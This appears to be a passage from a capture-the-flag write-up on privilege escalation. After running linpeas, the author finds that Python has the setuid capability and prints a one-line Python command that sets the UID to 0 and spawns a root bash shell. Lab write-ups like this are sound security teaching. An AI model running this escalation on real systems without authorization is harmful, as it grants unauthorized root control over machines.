



::: page
# Privilege Escalation {#privilege-escalation .title}

\

We transferred **linpeas** to our shell and ran it.

Found this :

This means **Python can set its UID to 0 (root)** :

**/usr/bin/python2.7 -c \'import os; os.setuid(0);
os.system(\"/bin/bash\")\'**

**We are root!!!**.
:::
